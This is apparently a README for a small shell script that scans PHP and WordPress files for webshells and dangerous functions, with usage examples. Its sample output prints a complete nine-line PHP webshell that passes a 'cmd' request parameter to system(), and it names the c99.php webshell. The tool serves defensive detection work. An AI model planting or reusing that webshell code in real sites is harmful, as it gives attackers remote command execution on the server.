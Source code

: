 **Description:**

Simple script for detect possible backdoors in files PHP. (Good for the Wordpress PHP files.)


**Usage:**
```
$ ./findbackdoor

   Invalid option!

   Use: ./findbackdoor.sh <directory scan> <1 or 2> <lines>
   1 = WebShells
   2 = Functions ( <lines> is the number of lines before and after the match (default: 5) )

$ ./findbackdoor /tmp/teste/ 1

[+] Possible webshell found!
/tmp/teste/c99.php

$ ./findbackdoor /tmp/teste/ 2

[+] Possible dangerous function!
[+] Last modification in /tmp/teste/ha.php: 2014-10-15 02:14:38.163231500 -0300

1-<?php
2-if(isset($_REQUEST[‘cmd’])){
3-        echo "<pre>";
4-        $cmd = ($_REQUEST[‘cmd’]);
5:        system($cmd);
6-        echo "</pre>";
7-        die;
8-}
9-?>

$ ./findbackdoor /tmp/teste/ 2 1

[+] Possible dangerous function!
[+] Last modification in /tmp/teste/ha.php: 2014-10-15 02:14:38.163231500 -0300

4-        $cmd = ($_REQUEST[‘cmd’]);
5:        system($cmd);
6-        echo "</pre>";

$
```

**TODO:**

Missing some features, but it's a start.

**Contributing**

1. Fork it
2. Create your feature branch (git checkout -b my-new-feature)
3. Commit your changes (git commit -am 'Add some feature')
4. Push to the branch (git push origin my-new-feature)
5. Create new Pull Request

[]'s

